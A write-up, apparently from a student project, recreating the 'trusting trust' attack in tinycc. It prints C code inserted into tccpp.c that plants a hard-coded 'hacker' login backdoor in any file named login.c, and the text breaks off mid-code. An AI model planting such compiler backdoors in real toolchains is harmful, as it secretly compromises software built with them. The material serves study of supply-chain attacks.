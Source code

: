 Directory `tinycc-hack-itself` is the compiler able to hack `login.c` and itself, I will introduce it later.



### Step4: Modify the compiler so that it can hack login.c as well as itself

This step actually consists of two sub steps. Firstly I added Trojan horse in order to hack `login.c`, secondly I added another Trojan horse that insert these two Trojan horse in the binary of tcc when it's compiling itself. 

First of all I found the location the file is read is `tccpp.c:616`, thereby I added two Trojan horses between line 616 and line 617 to insert the malicious code into `bf->buffer`.

```c
611: #if defined(PARSE_DEBUG)
612:             len = 1;
613: #else
614:             len = IO_BUF_SIZE;
615: #endif
  
616:             len = read(bf->fd, bf->buffer, len);
// Code inserted here
617:             if (len < 0)
618:                 len = 0;
619:         } else {
620:             len = 0;
621:         }
```



Trojan horses I inserted to `tccpp.c` is shown below. The comments is added to explain the code, they will not appear in the source code. 

```c
  // The reason I added counters for login.c and tccpp.c is I found the file may be visited multiple times, but the hack should only happen in the first time.
  // The indentation of static int counter1 = 0; should be adjusted to insert an identical malicaous code to itself. But this is not essential because indentation doesn't affect the binary of C.
  static int counter1 = 0;
  static int counter2 = 0;

  /* The source code to hack login.c */
  // The string to be inserted into login.c
  const char* inject_login = "if(strcmp(username, %chacker%c) == 0) {%c    printf(%cwelcome!%cn%c);%c    return 0;%c  }%c  ";
  // If the file being preprocessed is login.c, then hack.
  if(strstr(file->filename, "login.c") != NULL && counter1 == 0) {
    unsigned char* inject_code = tcc_malloc(sizeof(unsigned char) * 200);
    snprintf(inject_code, 200, inject_login, 34, 34, 10, 34, 92, 34, 10, 10, 10);
    int inject_len = strlen(inject_login);
    unsigned char* new_buf = tcc_malloc(sizeof(unsigned char) * IO_BUF_SIZE);
    // Get the location we want to insert, in this case we want to insert malicious code before it prints "Reject!".
    unsigned char* inject_location = strstr(bf->buffer, "printf(\"Reject!");
    int pre_inject_len = inject_location - bf->buffer;
    
    // This line should have been deleted. Previously I add a space at the very beginning to avoid revisiting the same file. But since I adopted a counter to handle this, this line doesn't make sense anymore.
    new_buf[0] = ' ';
    strncpy(new_buf + 1, bf->buffer, pre_inject_len);
    strncpy(new_buf + pre_inject_len + 1, inject_code, inject_len);
    strcat(new_buf, inject_location);
    len = len + inject_len - 9;
    strncpy(bf->buffer, new_buf, len);
```